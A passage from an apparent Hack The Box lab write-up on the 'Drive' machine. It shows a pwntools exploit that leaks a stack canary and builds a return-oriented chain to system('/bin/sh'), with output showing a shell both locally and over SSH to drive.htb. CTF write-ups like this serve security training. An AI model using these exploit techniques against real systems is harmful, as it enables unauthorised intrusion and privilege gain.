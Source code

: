     # build payload to ROP system("/bin/sh")
    payload = b"A" * 56             # offset to canary
    payload += p64(canary)          # leaked canary
    payload += b"A" * 8             # junk for stack pointer
    payload += ret                  # ret for stack alignment
    payload += pop_rdi              # go to pop rdi gadget
    payload += bin_sh               # address of "/bin/sh" to pop into RDI
    payload += p64(elf.sym.system)  # return to system
    payload += p64(elf.sym.exit)    # return to exit

    p.sendline(payload)
    # clear message
    p.readuntil(b"Invalid username or password.")
    # reset path cleared by binary
    p.sendline(b"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")
    p.interactive(prompt=prompt)



Running this locally gives a shell:



    oxdf@hacky$ python sploit.py
    [*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    [+] Starting local process '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli': pid 778049
    [*] Leak canary: 0x16285182807784140032
    [*] Switching to interactive mode

    $ id
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)



If I give it the `SSH` argument, it works remotely:



    oxdf@hacky$ python sploit.py SSH
    [*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    [+] Connecting to drive.htb on port 22: Done
    [*] tom@drive.htb:
        Distro    Ubuntu 20.04
        OS:       linux
        Arch:     amd64
        Version:  5.4.0
        ASLR:     Enabled
    [+] Starting remote process bytearray(b'/home/tom/doodleGrive-cli') on drive.htb: pid 1743058
    [*] Leak canary: 0x11875039814129743360
    [*] Switching to interactive mode
